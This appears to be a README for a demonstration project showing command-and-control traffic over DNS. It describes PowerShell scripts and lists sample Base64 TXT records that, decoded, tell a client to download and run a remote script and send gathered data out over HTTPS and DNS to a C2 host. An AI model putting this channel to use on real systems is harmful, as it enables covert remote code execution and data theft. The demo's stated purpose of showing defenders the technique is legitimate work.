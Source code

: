 # DNS C2 Demo

This set of scripts will help you to demostrate how easy it is to run C2-traffic thru DNS

The script ***demo-create-txt-records.ps1*** creates Base64 encoded records that can be used as TXT-entries

Something like this:

```
;QUESTION
c2demo.ronnkvist.nu. IN TXT
;ANSWER
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzszO1NldDtjMnNlcnZlci5zb21laGF4eG9yLnh5eg=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsxO0dldDtodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vcmlyb2ZhbC9ETlMtQzItRGVtby9tYWluL2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsyO1BTO2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs0O2h0dHBzO2RlbW8tcHVzaC1vdXQudHh0"
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs1O0ROUztkZW1vLXB1c2gtb3V0LnR4dA=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzswO1dyaXRlO1RpbWUgdG8gZG8gc29tZSBDMi1zdHVmZiA7KQ=="
```

Then you have the script ***demo-c2-client.ps1*** that you can run on a Windows client with Powershell and access to a DNS.

The script will use TXT-records to find and download another script, execute it and show how a simple DNS-query would send out the information gathered.